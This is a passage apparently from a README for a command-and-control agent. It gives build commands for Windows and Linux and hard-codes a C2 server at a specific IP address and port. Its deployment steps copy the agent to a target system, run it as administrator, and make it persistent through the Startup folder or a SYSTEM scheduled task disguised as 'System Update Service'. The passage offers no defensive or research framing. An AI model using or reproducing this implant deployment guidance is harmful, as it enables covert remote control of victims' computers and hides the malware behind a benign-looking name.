 ### Linux

1. **Prerequisites**:
   ```bash
   sudo apt-get update
   sudo apt-get install build-essential libcurl4-openssl-dev libjsoncpp-dev
   ```

2. **Build**:
   ```bash
   chmod +x build_agent_linux.sh
   ./build_agent_linux.sh
   ```

3. **Manual Build**:
   ```bash
   g++ -std=c++17 -O2 C2Agent_Linux.cpp -lcurl -ljsoncpp -lpthread -o C2Agent
   ```

## Configuration

### Server URL

Edit the `C2_SERVER` constant in the agent source code:

```cpp
// Windows version (C2Agent.cpp)
const char* C2_SERVER = "http://150.136.130.59:3002";

// Linux version (C2Agent_Linux.cpp)
const char* C2_SERVER = "http://150.136.130.59:3002";
```

### Timing Configuration

```cpp
const int HEARTBEAT_INTERVAL = 30000;      // 30 seconds
const int COMMAND_CHECK_INTERVAL = 5000;   // 5 seconds
```

## Deployment

### Windows Deployment

1. **Compile the agent**:
   ```batch
   build_agent.bat
   ```

2. **Deploy to target**:
   - Copy `C2Agent.exe` to target system
   - Run as administrator for full system access
   - Can be scheduled via Task Scheduler for persistence

3. **Persistence Options**:
   ```batch
   # Add to startup
   copy C2Agent.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"
   
   # Create scheduled task
   schtasks /create /tn "System Update Service" /tr "C:\path\to\C2Agent.exe" /sc onstart /ru SYSTEM
   ```
